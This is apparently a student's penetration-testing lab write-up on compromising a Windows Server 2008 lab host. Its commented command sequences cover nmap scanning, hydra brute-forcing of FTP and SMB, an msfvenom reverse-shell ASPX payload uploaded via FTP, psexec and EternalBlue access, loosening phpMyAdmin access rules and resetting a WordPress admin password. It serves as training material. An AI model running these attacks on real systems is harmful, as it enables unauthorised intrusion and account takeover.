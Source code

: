 # 7 - Windows Blackbox Exploitation

## <mark style="color:red;">Windows Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead has assigned you to gain access/exploit a host running Windows Server 2008.
* Your primary objectives are:
  * Identify services running on the target.
  * Identify vulnerabilities within the services.
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# discovering hosts in the network, we can get the target ip 
cat /etc/hosts # ping it to confirm reachability.

# nmap scan 
nmap -sV $ip # scan 1000 commonly used ports.
nmap -T4 -PA -sC -sV -p 1-10000 $ip -oX nmap_10k # -PA-ack scan, -oX-xml format.
nc -nv $ip 21 # to get banner, but no luck.
# we opened the "http://$ip/4848" on the web browser to take a look at the service, $ip/8080, $ip/9200 etc.

# we get a lot of http service ports based on the nmap scan on line 6, so we view each of them.

service postgresql start && msfconsole # create a workspace for the target (Win2k8).
db_import /path_to_nmapscan # import the scan.
# if you want the OS name to be specified correctly in the "os_name" column in msfconsole db a trick is to use the SMB version module.
search smb_version
use 0
options
set RHOSTS $ip
run
hosts # host name is now specified correctlly.
services # view all imported services.

# we can also do a comprehensive scan
nmap -sV -T4 -PA -sC -p 1-65535 $ip -oV nmap_All # didnt do.
nmap -sU -sV $ip # udp scan.
```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting Microsoft IIS FTP (port 21)</mark>

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"># check for anonymous access with nmap "ftp-anon" script or mannually with ftp $ip, enter "anonymous" as UN, which didnt work.

# we can use hydra to perform bruteforce on the ftp server.
<strong>hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # we got some creds.
</strong>
# we can also check if the user "vagrant" exist also
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # none exist but we can swap the wordlist and make use of the unix_users.txt in the "-P" option to check also. Save the creds.

ftp $ip # login with admin cred. We discover a .asp file, meaning the web server can execute .asp files....so we can generate a malicious .asp payload, upload it to get a reverse shell.

# using msfvenom to generate payload.
msfvenom -p wimdows/shell/reverse_tcp LHOST=$kaliIP LPORT=1234 -f asp > shell.aspx # we dont need a meterpreter shell here, hence we use normal reverse shell.

# login via ftp using the vagrant user.
ftp> put shell.aspx # upload the payload

# setup msfconsole to setup handler.
use multi/handler
set payload .....
set LHOST, LPORT. ..
run

# execute the file via the browser
# in this case we didnt get a reverse shell, even generating a .asp file didnt work also.

# what else can we do?
# attackers can deface the website since the "index.html" file is accessible in the ftp server.
get index.html

# open and edit, the upload it back.
put index.html
</code></pre>

#### <mark style="color:yellow;">3 - Targeting OpenSSH</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we can perform a bruteforce, using "varant" and administrator as the user.
# login with the user "vagrant", we got a shell session.

# we can use the "use auxililary/scanner/ssh/ssh_login" module to obtain a meterpreter session, set USERNAME, PASSWORD to "Vagrant".
# upgrade to a meterpreter session "sessions -u 1" - but it failed.

# we can generate a meterpreter payload, and transfer it to the target via ssh, but that's not necessary in this case.

# in this case we can spawn a cmd shell session after loggin in via ssh using the "bash" cmd. Now we have a cmd prompt shell.

net localgroup administrators # check if the user is part of the local group.
whoami /priv # check user permissions.
```
{% endcode %}

#### <mark style="color:yellow;">4 - Targeting SMB</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 445 $ip # indepth SMB scan.
hydra -l administrator -P /usr/share.../unix_users_or_password.txt smb # btrute force on smb. Test the "vagrant" user too.

# we can authenticate via rdp, but for now we are working on SMB.
smbclient -L $ip -U vagrant # list the vagrant shares.
smbmap -y vagrant -p vagrant -H $ip # list shares.
enum4linux -u vagrant -p vagrant -U $ip # enumerate other users on the PC.

# enumeratin shares with metasploit.
use auxiliary/scanner/smb/smb_enumusers_domain
set RHOSTS, SMBUser, SMBPass vagrant, run

# we can also use psexec.py script to authenticate.
locate psexec.py
chmod +x psexec.py
python3 psexec.py Administrator@$ip # login with psexec. We are NT AUTHORITY.

# msfconsole also have a psexec module (exploit/windows/smb/psexec).

# what is we have no creds.
# we can use the EternalBlue exploit to gain access to the user.
```
{% endcode %}

#### 6 - Targeting MySQL DB Server

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 3306,8585 $ip # nmap scans.
searchsploit MySQL 5.5 # but we got nothing.
# perform a bruteforce with Metasploit
search mysql_login
use 0
# we found  out no password for the "root" user.
mysql -u root -p -h $ip # login mysql
show databases; # display dbs.

# we cant access the phpmyadmin page, so what we can do is use the previous SMB module, gain a meterpreter session, download the phpmyadmin file, edit and modify the config options.
# we use Metasploit to exploit the EternalBlue vuln and get meterpreter session.
meterpreter > cd C:\ # we see a folder named "Wamp" this stores web application files, check the "apps" or "Www" folder.

# we also could have identified the "MySQL" cred by taking a look at the "C:\Wamp\www\wordpress\wp-config.php" directory, we can see the MySQL creds.

# back to line 10, lets get the "phpmyadmin" file
meterpreter > cd C:\Wamp\alias\ # we locate the file.
meterpreter > download phpmyadmin.conf # download the file to kali, so you can modify it with nano or vim.
# we can delete other rules there, then modify the "Allow from 127.0.0.1" to "All from all".
# upload the modified file, which automatically replaces the default one. confirm it by "cat phpmyadmin.conf".

# for the effect to take place we have to restart the apache service.
shell # spawn a cmd prompt shell.
C:\wamp\alias> net stop wampapache # stops the service.
C:\wamp\alias> net start wampapache # starts the service. Now we are able to access the phpmyadmin page from the browser.

# now we clicl the "wordpress" button, wp_users button, we can modify the "admin" account password. click "Edit", select MD5 in the "user_pass" row and change the password.

# now we can goback to the homepage of the site, and login as "Admin" in Wordpress.
$ip:8585/wordpress/wp-admin # login as admin. This gives us aacces to the entire website.
```
{% endcode %}

####

